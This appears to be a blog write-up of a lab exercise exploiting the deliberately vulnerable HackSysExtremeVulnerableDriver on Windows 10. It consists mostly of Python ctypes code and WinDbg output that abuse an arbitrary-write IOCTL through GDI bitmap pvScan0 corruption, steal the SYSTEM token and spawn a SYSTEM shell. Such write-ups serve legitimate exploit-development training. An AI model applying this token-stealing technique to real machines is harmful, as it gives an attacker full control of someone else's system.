 ```yaml
---
layout:		post
title:		HackSysExtremeVulnerableDriver GDI Bitmap Abuse
author:		wooy0ung
tags:		hevd
category:	exploit
---
```


>[Analysis Environment]  
>guest machine: Windows 10 1511 Feb 2016  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Make sure our arbitrary write still works as expected on Win 10.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*8 + "B"*8
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

Well, I got the feedback, it work fine!
```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x0000000002090E18
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x4141414141414141
[+] UserWriteWhatWhere->Where: 0x4242424242424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```


## 0x002 How to Exploit it?

Take it easy~ 

Now, I will create a Bitmap objects, and try to find where it is.
```
HBITMAP CreateBitmap（
 _In_ int nWidth，
 _In_ int nHeight，
 _In_ UINT cPlanes，
 _In_ UINT cBitsPerPel，
 _In_ const VOID * lpvBits
);
```

Execute this script, the process will be hung up.
```
import sys,time
from ctypes import *

kernel32 = windll.kernel32
gdi32 = windll.gdi32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
	
bmp = gdi32.CreateBitmap(0x64,0x64,1,32)
print "[+] Bitmap objects Addr: {0}".format(hex(bmp))

kernel32.DebugBreak()
kernel32.DebugBreak()

while True:
    time.sleep(60*60*24)
```

The handle is printed.
```
C:\Users\wooy0ung>python C:\Users\wooy0ung\Desktop\poc.py
[+] Bitmap objects Addr: 0x20050b46
```

Try to find out the "GdiSharedHandleTable" step by step.
```
kd> !process 0 0 python.exe
PROCESS ffffe00058481840
    SessionId: 1  Cid: 0584    Peb: 002ad000  ParentCid: 02f8
    DirBase: 42277000  ObjectTable: ffffc000e4cf6ac0  HandleCount: <Data Not Accessible>
    Image: python.exe

kd> .process ffffe00058481840
Implicit process is now ffffe000`58481840
WARNING: .cache forcedecodeuser is not enabled
kd> .context
User-mode page directory base is 42277000
kd> r $peb
$peb=00000000002ad000
kd> dt nt!_PEB 00000000002ad000 GdiSharedHandleTable
   +0x0f8 GdiSharedHandleTable : 0x00000000`00b90000 Void
```

GdiSharedHandleTable is a pointer array, we access the array by last two bytes of bitmap handles in order[GdiSharedHandleTable + (handle & 0xffff) * (x64:0x18,x86:0x10]
```
kd> dt nt!_PEB 00000000002ad000 GdiSharedHandleTable
   +0x0f8 GdiSharedHandleTable : 0x00000000`00b90000 Void
kd> dq 0x00000000`00b90000 + (0x6105104c & 0xffff)*0x18 L3
00000000`00ba8720  fffff901`44895000 40056105`00000584
00000000`00ba8730  00000000`00000000
```
Addr of the Bitmap which I create just now may be 0xfffff90144895000 while the PID is 1412(0x584)

We can verify the Addr by ProcessHacker.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x001.png)

When we create a Bitmap object, SURFACE OBJECT will be created, including BASEOBJECT、SURFOBJECT and pvScan0 which belongs to the SURFOBJECT pointing to the Pixel Data.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x002.png)
```
typedef struct {
 BASEOBJECT64   BaseObject;
 SURFOBJ64      SurfObj; 
 .......
} SURFACE64

typedef struct {
 ULONG64    hHmgr;
 ULONG32    ulShareCount;
 WORD       cExclusiveLock;
 WORD       BaseFlags;
 ULONG64    Tid;
} BASEOBJECT64;

typedef struct {
 ULONG64    dhsurf;
 ULONG64    hsurf;
 ULONG64    dhpdev;
 ULONG64    hdev;
 SIZEL      sizlBitmap;
 ULONG64    cjBits;
 ULONG64    pvBits;
 ULONG64    pvScan0;
 ULONG32    lDelta;
 ULONG32    iUniq;
 ULONG32    iBitmapFormat;
 USHORT     iType;
 USHORT     fjBitmap;
} SURFOBJ64
```

Declare two Bitmap objects(hManager, hWorker). Set hManager's pvScan0 to the Addr of hWorker's pvScan0. Well, we may use the ArbitratyOverite vulnerability.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x003.png)

But first, we should get GdiSharedHandleTable Addr
```
pbi = PROCESS_BASIC_INFORMATION()
ntdll.NtQueryInformationProcess.argtypes = (HANDLE, UINT, c_void_p, ULONG, POINTER(ULONG))
ntdll.NtQueryInformationProcess(kernel32.GetCurrentProcess(), 0, byref(pbi), sizeof(pbi), None)
peb = pbi.PebBaseAddress.contents
gdiHandleTable = peb.GdiSharedHandleTable
print "[+] GdiSharedHandleTable : {0}".format(hex(gdiHandleTable))
```

Then I will calculate pvscan0 offset of every Bitmap objects of which I created.
```
ptr = gdiHandleTable + (hManager & 0xFFFF) * sizeof(GDICELL64())
gdicell64 = cast(ptr, POINTER(GDICELL64))
hManager_pvscan0_off = gdicell64.contents.pKernelAddress + 0x50
print "[+] hManager_pvscan0_off : {0}".format(hex(hManager_pvscan0_off))

ptr = gdiHandleTable + (hWorker & 0xFFFF) * sizeof(GDICELL64())
gdicell64 = cast(ptr, POINTER(GDICELL64))
hWorker_pvscan0_off = gdicell64.contents.pKernelAddress + 0x50
print "[+] hWorker_pvscan0_off  : {0}".format(hex(hWorker_pvscan0_off))
```

Using our arbitrary write we want to set the pvScan0 address for the "manager" bitmap to point at the pvScan0 address of the "worker" bitmap.
```
write_where = hManager_pvscan0_off
write_what_ptr = c_void_p(hWorker_pvscan0_off)
buf = struct.pack("<Q", write_what_ptr) + struct.pack("<Q", write_where)
buf_ptr = id(buf) + 0x20
buflen = len(buf)
kernel32.DeviceIoControl(hevDevice, 0x22200B, buf_ptr, buflen, None, 0,byref(c_ulong()), None)
```

Check if this is valid.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x004.png)
Success. Now, I may read and write a specific memory with GetBitmapBits and SetBitmapBits method.

PsInitialSystemProcess is a global variable containing the EPROCESS structure address of the SYSTEM process. Therefore, we can get the EPROCESS of the SYSTEM process by looking up the address in the kernel land.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x005.png)

And now, I should calculate the offset of some import property. There is a good news that we find out the SYSTEM EPROCESS Addr(0xffffe0008425d040 at this time). Let's set a breakpoint~
```
kd> dt _EPROCESS UniqueProcessId ActiveProcessLinks
ntdll!_EPROCESS
   +0x2e8 UniqueProcessId    : Ptr64 Void
   +0x2f0 ActiveProcessLinks : _LIST_ENTRY
kd> dt _EPROCESS ImageFileName Token
ntdll!_EPROCESS
   +0x358 Token         : _EX_FAST_REF
   +0x450 ImageFileName : [15] UChar
```

Clearly, I get the offset!
```
token_off = 0x358
unique_process_id_off = 0x2e8
active_process_links_off = 0x2f0
```

Next step, find CURRENT EPROCESS structure, then, copy system token to the current process.

finally, pop a system cmd.
```
...
system_token = c_ulonglong()
read_mem(SYSTEM_EPROCESS + token_off, byref(system_token), sizeof(system_token));
write_mem(CURRENT_EPROCESS + token_off, byref(system_token), sizeof(system_token));

Popen("start cmd", shell=True)
```

pwn~
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x006.png)


## 0x003 Reference

[Part 17: Kernel Exploitation -> GDI Bitmap Abuse (Win7-10 32/64bit)](http://www.fuzzysecurity.com/tutorials/expDev/21.html)
[Window Kernel Exploit -> GDI Bitmap Abuse](http://gflow.co.kr/window-kernel-exploit-gdi-bitmap-abuse/)
[Techwiki:Win32k/BASEOBJECT](https://www.reactos.org/wiki/Techwiki:Win32k/BASEOBJECT)